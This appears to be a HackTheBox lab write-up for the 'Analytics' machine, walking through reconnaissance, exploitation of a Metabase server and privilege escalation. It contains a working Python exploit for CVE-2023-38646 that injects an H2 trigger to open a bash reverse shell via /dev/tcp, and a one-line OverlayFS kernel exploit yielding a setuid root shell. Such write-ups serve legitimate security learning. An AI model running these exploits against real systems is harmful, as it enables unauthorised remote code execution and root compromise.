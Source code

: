 ```yaml
---
description: Analytics writeup by Thamizhiniyan C S
---
```


# Analytics

## Overview

Greetings everyone,

In this write-up, we will tackle Analytics from HackTheBox.

Machine link: [Analytics Machine](https://app.hackthebox.com/machines/Analytics)

Difficulty Level: Easy

Let's Begin 🙌

Firstly, connect to the HTB server using the OpenVPN configuration file generated by HTB.  [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to VPN and access the boxes.

Once connected to the VPN service, click on "Join Machine" to access the machine's IP.

Upon joining the machine, you will be able to view the IP address of the target machine.

***

## Reconnaissance

### Rust Scan

`rustscan --range=1-65535 --ulimit 5000 -a <TARGET_IP> -- -A -T4 -v -Pn`

<figure><img src="../../.gitbook/assets/Untitled (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 1 (25).png" alt=""><figcaption></figcaption></figure>

### Results

| Ports | Services | Service Version |
| ----- | -------- | --------------- |
| 22    | SSH      | OpenSSH 8.9p1   |
| 80    | HTTP     | nginx 1.18.0    |

***

## Information Gathering - analytical.htb

First, let's take a look at the website running on port 80.

When attempting to access view port 80, it redirects to the domain `analytical.htb`. Therefore, to access the website, we need to append an entry to the `/etc/hosts` file, mapping the domain to the target IP address.

Command: `sudo vim /etc/hosts`

<figure><img src="../../.gitbook/assets/Untitled 2 (24).png" alt=""><figcaption></figcaption></figure>

Now we have access to the website. I used `Wappalyzer` to check the technologies employed, but nothing of particular interest was discovered.

<figure><img src="../../.gitbook/assets/Untitled 3 (27).png" alt=""><figcaption></figcaption></figure>

When I clicked the login button in the top right corner of the webpage, it redirected me to the subdomain `data.analytical.htb`. To access it, you need to append another entry to the `/etc/hosts` file.

<figure><img src="../../.gitbook/assets/Untitled 6 (24).png" alt=""><figcaption></figcaption></figure>

Now, we can access the website. The website hosted on `data.analytical.htb` is a Metabase login page. Metabase is an open-source business intelligence tool that allows you to connect to many popular databases.

<figure><img src="../../.gitbook/assets/Untitled 7 (19).png" alt=""><figcaption></figcaption></figure>

## CVE-2023-38646

I began searching for recent exploits and vulnerabilities related to Metabase and came across this: [https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

As mentioned in the article, I verified whether `/api/session/properties` is accessible, and indeed, it was.

<figure><img src="../../.gitbook/assets/Untitled 9 (4).png" alt=""><figcaption></figcaption></figure>

Next, I searched for the setup-token in the `/api/session/properties` page. I copied the content of the page and pasted it into a JSON beautifier, where I located the setup-token. I utilized the following JSON beautifier website: [https://codebeautify.org/jsonviewer](https://codebeautify.org/jsonviewer).

<figure><img src="../../.gitbook/assets/Untitled 10 (4).png" alt=""><figcaption></figcaption></figure>

## Initial Access

This indicates that the Metabase application is vulnerable to Remote Code Execution (RCE). I crafted a Python script based on the Proof of Concept (PoC) mentioned in the above article, along with references from other PoCs targeting the same vulnerability. The script retrieves the `setup-token` from the Metabase application and sends a POST request to `/api/setup/validate` to exploit the RCE, consequently enabling a reverse shell to be established back to the attacker's machine.

```python
import base64
from string import ascii_uppercase
import requests
import random

localhost = '10.10.16.10'  # HTB VPN TUNNEL IP

listening_port = '9001'  # Netcat listener port

response1 = requests.get("http://data.analytical.htb/api/session/properties")

setup_token = response1.json()['setup-token']

reverse_shell = f'bash -i >&/dev/tcp/{localhost}/{listening_port} 0>&1'

def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload

command = encode_command_to_b64(reverse_shell)

url = f'http://data.analytical.htb/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": setup_token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(
                random_string=''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

request = requests.post(url, json=payload, headers=headers)
```

Before executing the script, initiate a netcat listener on port 9001.

<figure><img src="../../.gitbook/assets/Untitled 16 (3).png" alt=""><figcaption></figcaption></figure>

Now, execute the Python script and monitor the netcat listener. You will observe that you receive a connection back from the target machine. Upon further exploration of the machine, I discovered linpeas in the home directory. However, running it did not yield any privilege escalation vectors. Therefore, I continued searching for alternative avenues. I inspected the environment variables of the target machine, from which I obtained a username and password.

<figure><img src="../../.gitbook/assets/Untitled 17 (4).png" alt=""><figcaption></figcaption></figure>

Since SSH is running on the target machine, I attempted to log in using the credentials we obtained, and to my satisfaction, it worked.

<figure><img src="../../.gitbook/assets/Untitled 18 (4).png" alt=""><figcaption></figcaption></figure>

## Getting the User Flag

<figure><img src="../../.gitbook/assets/Untitled 19 (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I was trying all the privilege escalation vectors but nothing worked. I proceeded to identify the kernel version as my next step in the investigation.

<figure><img src="../../.gitbook/assets/Untitled 20 (5).png" alt=""><figcaption></figcaption></figure>

I began searching for exploits targeting the identified kernel version and came across this: [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

I examined the exploit.sh file in the mentioned repository. It contained a single line of code that performed the privilege escalation task. Subsequently, I copied and executed the code. Below, I have provided the code:

```powershell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## Getting the Root Flag

I executed the code, and to my satisfaction, it successfully completed the privilege escalation, granting me access to the root flag.

<figure><img src="../../.gitbook/assets/Untitled 22 (4).png" alt=""><figcaption></figcaption></figure>

Thank You....
